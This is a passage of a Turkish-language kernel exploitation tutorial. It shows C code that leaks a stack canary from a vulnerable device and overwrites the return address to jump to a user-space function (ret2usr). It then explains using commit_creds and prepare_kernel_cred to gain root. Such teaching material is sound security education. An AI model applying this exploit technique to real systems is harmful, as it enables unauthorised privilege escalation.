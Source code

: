 ```c
    for(int i = 0; i < sizeof(r)/8; i++){
        printf("Reading (%d): %lx\n", i, r[i]);
    }
    printf("Cookie leaked! %lx\n", r[4]);

    w[0] = 0; // local buffer 
    w[1] = r[4]; // stack cookie

    // burdaki adresi local fonksiyonun adresi ile değiştirdik
    w[2] = (unsigned long)call_cant_get_here; // return address 

    puts("Writing payload to "DEVICE);
    write(fd, w, sizeof(w));

    close(fd);

}
```
Bu az önceki exploitimizin ret2usr metodu ile yazılmış hali. Kernel `call_cant_get_here` user-space
fonksiyonuna dönüş yapıyor, bu fonksiyonda biraz assembly kodu ile `cant_get_here` fonksiyonunu 
çağrıyoruz.

Aslında bunu assembly kullanmadan da yapabiliriz:
```c
typedef void* (*cant_get_here)(void);

void call_cant_get_here()
{

    cant_get_here func = (void*)0xffffffffc00001d6;
    func();

}
```
Ancak az sonraki root exploitimiz için adresi ile çağırdımız fonksiyonlara bazı 
parametreler veriyor olacağız, ayrıca bazı registerlar ile oynayacağız ve bunu C ile yapmak inanın 
assembly ile yapmaktan çok daha karışık.

Temel `ret2usr` konseptini anladığımıza göre nasıl bir root exploiti yazabileceğimize bakalım.

Bu örnekte olduğu gibi ret2usr tekniği ile root alamanın birçok yolu var, fakat bu yolları anlamadan 
önce linux'un farklı işlemler için yetkilendirmeyi nasıl yaptığına bakmalıyız.

### Linux'da credential'lar
Linux'da her işlemin kendina ait kimlik bilgileri (credentials, kısaca credler) bulunur. Bu credler
çalışan işlemin UID'si, GID'si gibi değerli tutar. Exploitimiz çalışırken eğer biz 
exploitimizin credlerini tamamen 0'a çekebilirsek (root'un grupları, UID'leri vs. her zaman 0'dır)
o zaman exploitimizin root yetkisi kazanmasını sağlayabiliriz, ardından bir shell çalıştırıp 
root olarak sisteme erişebiliriz.

Bunu yapmanın iki yolu var, biri anlık programımızın çalıştığı işlem'in cred objesine erişip 
tek tek değerleri sıfır yapmak, ikincisi ise anlık işlem için verilen cred'leri geçen bir fonksiyon 
olan `commit_creds`i ve bizim için bir cred oluşturan `prepare_kernel_cred`i kullanmak.
